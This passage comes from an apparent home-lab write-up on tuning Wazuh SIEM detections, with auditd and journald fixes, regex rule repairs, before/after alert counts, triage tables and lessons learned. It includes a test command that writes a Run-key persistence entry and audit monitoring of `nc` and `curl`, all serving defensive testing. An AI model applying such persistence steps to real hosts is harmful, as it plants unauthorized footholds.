- `sudo` on Ubuntu 26.04 is **sudo-rs at `/usr/lib/cargo/bin/sudo`**. Writing `/usr/bin/sudo` from a guide would have silently removed all sudo visibility. Also: `python3` → `python3.14`, `nc` → `nc.openbsd` (auditd does not follow symlinks).
- **Test:** `tee`, `ls` and `curl` run after the change → `ausearch` and `alerts.json` both show only `curl` (and the `sudo` used to search). `tee` and `ls`: gone.
- **A testing trap:** `ausearch -ts recent` means the last 10 minutes, so the first test still showed events from **before** the change. A fixed start time gave the true result.

**journald first-login test** (open question from Exercises 14 and 15). With archives on, a brand-new user logged in over SSH from Kali:

| | Login | journald "rotation" | Login alert |
|---|---|---|---|
| Exercise 14 | 12:44:17 | 12:44:18 | ❌ missed |
| Exercise 15 | 11:26:28 | 11:26:29 | ❌ missed |
| **Exercise 18** | **13:39:07** | **13:39:09** | ✅ 5715 + 5501 |

The rotation happened again at the new user's first login, but this time the events survived. Conclusion: an **intermittent race**, not a rule bug, which makes it more dangerous because one passing test proves nothing.

- **Compensating control:** auditd recorded the same login independently (`USER_LOGIN` in `audit.log`, not journald).
- **Decision:** I did not add `/var/log/auth.log` as a second source. It would duplicate every sudo, PAM and CRON alert, the kind of noise this exercise removes. Production fix: one source per log (journald filtered by unit, or auth.log only), never both.
- **Side finding:** the new user got the reused UID 1001, so SSH showed *"Last login: Sun Nov 8 … from 10.10.10.130"*, the deleted Exercise 15 user's login. `lastlog` is per UID, not per account.

### 18.6 A rule that never fired (100710)

Reading `local_rules.xml` during the final review showed why the benign `sdbinst -m -bg` (92058, level 12) kept appearing in every window although Exercise 8 had suppressed it:

```
(?i)^C:\\Windows\\System32\\sdbinst\.exe$      <- matches ONE backslash
C:\\Windows\\System32\\sdbinst.exe             <- the stored value has TWO
```

Anchored with `^...$`, it could never match. Exercise 8 only ran a negative test (sdbinst from PowerShell still alerts), which passes for a broken rule too. Fixed to `\\+` like every Exercise 18 rule; it will be confirmed the next time PcaSvc runs.

### 18.7 Endpoint hygiene

| Problem | Fix |
|---|---|
| Endpoint clock not synced: `Source: Local CMOS Clock`, "not synchronized" (37 s skew in Exercise 17) | `w32tm` → `time.windows.com`, Leap Indicator 0, synced |
| Security log 20 MB (overwritten in ~18 min in Exercise 17) | 200 MB |

### 18.8 After: measuring, and finding more

**After v1 (14 Nov, 13:53–14:53 UTC): 107 alerts, 8 at level 10+.** Higher than the baseline, so I investigated before claiming anything:

- **Every targeted rule was at 0:** 92219, 92217 (Windows Update), 80792 `tee`, 91816, 61632.
- The extra volume came from a different Windows workload: the agent's SCA scan after the reboot (60608, CIS checks, 92066), a burst of service registry changes (92307 ×24, likely Windows preparing the update that installed at the next restart) and ~6 Linux alerts from a check I ran on the manager inside the window.
- **7 of the 8 level 12 alerts were benign logon activity**, so a level 12 meant "someone logged in":

| Alert | Process | Tuning |
|---|---|---|
| 61618 ×1 | `svchost.exe -k osprivacy -p -s camsvc` | 101570, level 3 |
| 61634 ×4 | `backgroundTaskHost.exe -ServerName:<app>` | 101580, level 3 |
| 100300 ×2 (my own Run key rule) | `msedge.exe` writing `MicrosoftEdgeAutoLaunch_<32 hex>` (Edge startup boost) | 101560, level 3 |

These were lowered to level 3, not silenced, and each needs **all** of: exact image path, exact command line or value name.

| Test | Result |
|---|---|
| Sign out, sign in, open and close Edge | 101540 ×1, 101580 ×2, 101560 ×2, all **level 3**, no level 12 |
| **Negative:** `reg add ...\Run /v EX18NegTest /d notepad.exe` | **100300 level 12** still fires |

**After v2 (14 Nov, 15:13–16:13 UTC, right after a Windows Update install): 69 alerts, 3 at level 10+**, each triaged:

| Alert | Finding | Decision |
|---|---|---|
| 92206 L12 | `spoolsv.exe` wrote `spool\drivers\x64\3\New\PrintConfig.dll` | Signature **Valid, CN=Microsoft Windows**: benign printer driver update. **Not tuned**: this is exactly where PrintNightmare drops its DLL |
| 61638 L12 | `DllHost.exe /Processid:{...}` (COM surrogate) at logon | Seen once, observation only |
| 92058 L12 | `sdbinst -m -bg` | Led to the 100710 fix (18.6) |
| 92217 ×5 (L6) | `mscorsvw.exe` (.NET native image compiler) after the update | Rare, post-update only: documented, not tuned |

### 18.9 Result


| | Before | After v1 | After v2 |
|---|---|---|---|
| Total alerts | 58 | 107 | 69 |
| Level 10+ | 1 | 8 | 3 (all triaged benign) |
| Targeted noise (92219, 92217 WU, 80792 `tee`) | 35 | 0 | 0 |
| Benign logon L12 (61632, 61618, 61634, Edge 100300) | – | 7 | 0 (now level 3) |

**Honest reading:** the total did not fall below the baseline, because each idle hour had a different Windows workload (Windows Update DLLs before; SCA scan, servicing and a .NET recompile after). What changed is **what the alerts mean**: the tuned noise is gone, a level 12 is no longer a normal logon, and every remaining level 10+ alert was investigated and has a recorded verdict. Total alert count alone is a poor tuning metric.

**Still open:** 101520 and 101570 were written from confirmed live alerts but not re-triggered; 100710's fix awaits the next PcaSvc run; 92205 (PowerShell created an executable in the Windows folder, ×10 in v2) is not yet investigated.

### Screenshots

<table>
<tr>
<td><br><sub>Baseline: 58 alerts, 92219 is 48%</sub></td>
<td><br><sub>After v1: 107 alerts, 8 at level 10+</sub></td>
</tr>
<tr>
<td><br><sub>The 8 level 12 alerts: logon processes and Edge</sub></td>
<td><br><sub>After the fix: same activity at level 3</sub></td>
</tr>
<tr>
<td><br><sub>Negative test: a non-Edge Run key is still level 12</sub></td>
<td><br><sub>After v2: 69 alerts, 3 at level 10+</sub></td>
</tr>
<tr>
<td><br><sub>92206 triage: PrintConfig.dll signed by Microsoft Windows</sub></td>
<td><br><sub>auditd: tee and ls no longer logged, curl still is</sub></td>
</tr>
</table>

<details>
<summary>More screenshots</summary>

<table>
<tr>
<td><br><sub>Backups before any change</sub></td>
<td><br><sub>92219: svchost writing Windows Update DLLs</sub></td>
</tr>
<tr>
<td><br><sub>92217: Defender definition patch</sub></td>
<td><br><sub>Tuning rules 101500 / 101510 added</sub></td>
</tr>
<tr>
<td><br><sub>Rules validated</sub></td>
<td><br><sub>Manager restarted</sub></td>
</tr>
<tr>
<td><br><sub>Rules loaded, manager running</sub></td>
<td><br><sub>92219 flat after the rule</sub></td>
</tr>
<tr>
<td><br><sub>92219: 0 events after the rule time</sub></td>
<td><br><sub>Negative test: unexpected DLL still alerts (92203)</sub></td>
</tr>
<tr>
<td><br><sub>Negative test on the dashboard</sub></td>
<td><br><sub>91823 false positive: "acne" and "cnc" at level 14</sub></td>
</tr>
<tr>
<td><br><sub>91816: the SCA scan rule</sub></td>
<td><br><sub>91823 overwrite and 101530 added</sub></td>
</tr>
<tr>
<td><br><sub>91823 fixed: real -ComputerName still fires</sub></td>
<td><br><sub>SCA scan: 0 alerts after an agent restart</sub></td>
</tr>
<tr>
<td><br><sub>101540 / 101550 added</sub></td>
<td><br><sub>Empty-group error fixed, manager recovered</sub></td>
</tr>
<tr>
<td><br><sub>101540 level 3 and 101550 level 12 firing</sub></td>
<td><br><sub>New audit rules file</sub></td>
</tr>
<tr>
<td><br><sub>Audit rules loaded in the kernel</sub></td>
<td><br><sub>Wazuh alerts: only curl and sudo</sub></td>
</tr>
<tr>
<td><br><sub>New test user gets reused UID 1001</sub></td>
<td><br><sub>No active user journal before the first login</sub></td>
</tr>
<tr>
<td><br><sub>SSH login from Kali; "Last login" belongs to the old UID</sub></td>
<td><br><sub>Login 13:39:07, journald rotation 13:39:09</sub></td>
</tr>
<tr>
<td><br><sub>This time the login reached Wazuh (5715)</sub></td>
<td><br><sub>Endpoint clock: Local CMOS, not synchronized</sub></td>
</tr>
<tr>
<td><br><sub>NTP synced to time.windows.com</sub></td>
<td><br><sub>Security log 20 MB to 200 MB</sub></td>
</tr>
<tr>
<td><br><sub>After v1 window start</sub></td>
<td><br><sub>101560 added (Edge Run key)</sub></td>
</tr>
<tr>
<td><br><sub>101570 / 101580 added</sub></td>
<td><br><sub>Negative test: test Run key added and removed</sub></td>
</tr>
<tr>
<td><br><sub>After v2 window start (after Windows Update)</sub></td>
<td><br><sub>After v2: details of the level 10+ alerts</sub></td>
</tr>
<tr>
<td><br><sub>100710 regex fixed</sub></td>
<td></td>
</tr>
</table>

</details>

### Key takeaways
- Tune a pattern, never a rule ID, and prove it twice: a positive test (the noise stops) **and** a negative test (the attack still fires). 100710 passed a negative test for ten exercises while doing nothing.
- Lowering severity is often better than silencing. A level 3 logon event is still searchable; a level 12 logon event teaches analysts to ignore level 12.
- Field names and formats come from live alerts: no `signed` field on Sysmon 11, no `parentImage` on 61632, doubled backslashes everywhere, sudo-rs in `/usr/lib/cargo/bin`.
- Some alerts should never be tuned, only triaged. A Microsoft-signed `PrintConfig.dll` today does not make the next DLL in that folder safe.
- Alert count is a weak metric. Measure what the high-severity alerts mean, not only how many there are.

---

## 🎓 What I learned

- **Triage:** reading rule ID, level, source IP and MITRE mapping; deciding true vs false positive from the exact field values
- **Endpoint telemetry:** investigating process creation, registry and file events with Sysmon (image, command line, parent process)
- **Detection engineering:** finding detection gaps and closing them with custom Wazuh rules, including correlation rules and multi-condition rules that limit false positives
- **Knowing when NOT to write a rule:** distinguishing a rule gap (event arrives, no rule matches) from a visibility gap (event never reaches the SIEM), and documenting the gap instead of shipping a rule that can never fire
- **Rule internals:** Wazuh evaluates rules as a tree (`if_sid` vs `if_group`), the predecoder changes what `<match>` sees, and dashboard field names differ from rule field names
- **Tuning:** narrow level 0 suppression rules and level 3 severity corrections, each backed by a positive and a negative test, and measured over before/after idle windows, so tuning never creates blind spots
- **Knowing what not to tune:** a rare, high-value alert (a DLL in the print spooler's driver folder) is triaged with a signature check, not silenced
- **Attack coverage:** persistence (Run keys, scheduled tasks, Startup folder), lateral movement, tool transfer, SSH and RDP brute force, file tampering, and defense evasion (log clearing, disabling tools)
- **File integrity monitoring:** whodata answers who, what, when and how in a single alert; context (which folder, which file) decides whether a change is noise or an attack
- **Endpoint health as a detection problem:** losing visibility (agent down, host crashed) is itself an incident; an agent that is "Active" may still be sending nothing
- **Troubleshooting:** "no alerts" is not "no activity"; verify the log pipeline, read service logs, and fix a manager that will not start
- **Automated response:** Wazuh Active Response contains an attacker in seconds, but containment is not prevention, and a response can fail silently when the field it needs (`srcip`) is missing
- **PowerShell visibility:** Script Block Logging (Event 4104) shows the decoded code behind `-EncodedCommand`, download cradles and run-time obfuscation; detections should read the script block, not only the command line
- **Auditing the vendor ruleset:** testing every variant against built-in rules found a missing `enc` spelling (92057), a typo (91837) and an unanchored regex causing a level 14 false positive (91823)
- **Incident investigation:** rebuilding an intrusion from SIEM alerts alone, separating 68% noise from the attack, pivoting on IP and account, proving the SIEM kept what the attacker deleted, and writing a full incident report
- **Correlation:** a level 15 incident rule built from separate alerts, and a "failure then success" rule that catches password guessing below a frequency threshold
- **Root-cause analysis:** testing the obvious suspect before acting on it, then using the event log timeline and a WinDbg crash dump to trace a `0x124` to a storage-driver timeout instead of guessing

The detailed version, with what happened and what I changed in each case, is in [docs/03-lessons-learned.md](docs/03-lessons-learned.md).

## 🚀 Next steps

- Close the crash/shutdown visibility gap with agent-side bookmark persistence or host/hypervisor-level monitoring
- Custom Windows active-response script that reads `win.eventdata.ipAddress`, so RDP brute force can be blocked too
- Fix the journald first-login race for good: one source per log (journald filtered by unit, or auth.log only)
- Discovery-burst rule (`net`, `whoami`, `ipconfig`, `systeminfo` from one user within minutes)
- Confirm the still-unverified tuning rules (101520, 101570, the 100710 fix) and investigate 92205 (PowerShell creating executables in the Windows folder)
- Add the Script Block Logging registry key to the Sysmon config (Event 13) and collect PowerShell 7 (`PowerShell Core/Operational`) logs
- Next labs: phishing email analysis, a web penetration testing lab, a network security lab, and an Active Directory attack-and-detection lab
